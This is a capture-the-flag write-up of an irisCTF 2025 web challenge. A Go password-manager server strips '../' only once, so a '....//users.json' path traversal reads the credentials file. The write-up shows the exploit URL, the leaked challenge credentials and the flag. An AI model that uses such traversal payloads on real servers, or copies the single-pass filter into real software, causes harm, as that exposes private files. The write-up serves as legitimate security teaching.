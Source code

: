 ```yaml
---
date: 2025-01-05
description: Path traversal due to weak filter
platform: irisCTF2025
categories: Web
tags:
  - path-traversal
  - code-review
  - go
duration: 40 minutes
---
```

# Password Manager
It looks like skat finally remembered to use his password manager! One small problem though, he forgot his password to the password manager!

Can you help him log back in so he can get back to his favorite RF forums?

> We are provided a main.go server file which looks like a password manager app with a standard login mechanism. 


# Vulnerability
> failed path traversal protection from line 25 and allowed server hosting of any file path as long as it exist in the OS. 

non-recursive string replacer does not actually prevent path traversal 
```go
 25 var PathReplacer = strings.NewReplacer(
 26     "../", "",
 27 )
```
>**strings.NewReplacer() Function** in Golang returns a new Replacer from a list of previous, new string sets. Substitutions are performed within the order they show up within the target string, without overlapping matches. The old string comparisons are done in argument order. The old string comparisons are done in argument order.

I observe that it allows serving other paths when page is not in the defined routes
```go
207     fullPath := "./pages" + path
208 
209     if _, err := os.Stat(fullPath); os.IsNotExist(err) {
210         notfound(w, r)
211         return
212     }
213 
214     http.ServeFile(w, r, fullPath)
```

Also found an important file `users.json called during initialization which can be used for path traversal
```go
 64     // Initialize users var
 65     file, err := os.Open("./users.json")
 66     if err != nil {
 67         fmt.Printf("Error reading users.json: %v\n", err)
 68         return
 69     }
 70 
 71     if err := json.NewDecoder(file).Decode(&users); err != nil {
 72         fmt.Printf("Error reading users.json: %v\n", err)
 73         return
 74     }
```

# Exploit
The path works like this in the backend. Most web files are under `/pages` 
- path `/index.html` > `./pages/index.html`
- path `/users.json` > `./pages/users.json` which does not exist because users.json is in the root of working directory
- path `../users.json` > `./pages/../users.json` but the filter - `../` prevents from navigating back
- exploit using `....//` as it would only filter out the first iteration resulting into `../users.json` getting passed to the fullPath var

https://password-manager-web.chal.irisc.tf/....//users.json

![](images/users-json.png)
![](images/etcpasswd.png)


User credentials can be used to login
`skat	"rf=easy-its+just&spicysines123!@"`
![](images/logged-in.png)

The flag can also found in the /getpasswords showing all entries in the passwords database raw

![](images/get-passwords.png)

flag:  `irisctf{l00k5_l1k3_w3_h4v3_70_t34ch_sk47_h0w_70_r3m3mb3r_s7uff}`